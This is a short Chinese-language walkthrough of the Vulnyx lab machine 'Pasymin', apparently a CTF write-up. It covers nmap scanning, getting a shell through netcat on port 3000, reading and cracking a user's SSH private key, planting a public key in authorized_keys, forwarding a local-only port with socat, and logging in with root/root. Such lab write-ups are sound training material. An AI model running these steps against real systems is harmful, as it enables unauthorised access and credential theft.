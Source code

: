 # 环境

来自[Vulny_Pasymin](https://vulnyx.com/#Pasymin)，

# 信息收集

## 主机发现

```bash
nmap -sn 192.168.10.0/24
```

![image-20240909091512195](image/image-20240909091512195.png)

## 端口扫描

```bash
sudo nmap -sT -r -p- 192.168.10.20
```

![image-20240909091702224](image/image-20240909091702224.png)

## 服务详情

```bash
sudo nmap -sVC -O -p22,80,3000 192.168.10.20
```

![image-20240909092845178](image/image-20240909092845178.png)

# 3000端口

## 3000端口拿shell

```bash
nc 192.168.10.20 3000
ls -alh 
!bash
```

## 获取密钥

```bash
cat /home/alfred/.ssh/id_rsa
ssh2john id_rsa >id1
john id1 --wordlist=/usr/share/wordlist/rockyou.txt
账号：alfred
密码：alfredo

#或者直接把自己的公钥写入到靶机
ssh-keygen -t rsa -b 2048
cat /home/rain/.ssh/id_rsa_pub
echo "*id_rsa_pub*">/home/alfred/.ssh/authorized_keys、

ssh alfred@192.168.10.20 -i id_rsa
```

![image-20240909092959457](image/image-20240909092959457.png)

## 端口转发

发现本地10000端口跑了一个web服务，发现只能本地访问

![image-20240909115455224](image/image-20240909115455224.png)

```bash
socat TCP-LISTEN:8888,fork TCP4:127.0.0.1:10000 &  #通过端口转发，使得外网可以访问
```

![image-20240909115920668](image/image-20240909115920668.png)

## 弱口令爆破

尝试root，root成功登录

![image-20240909120430804](image/image-20240909120430804.png)

发现有终端

![image-20240909120355102](image/image-20240909120355102.png)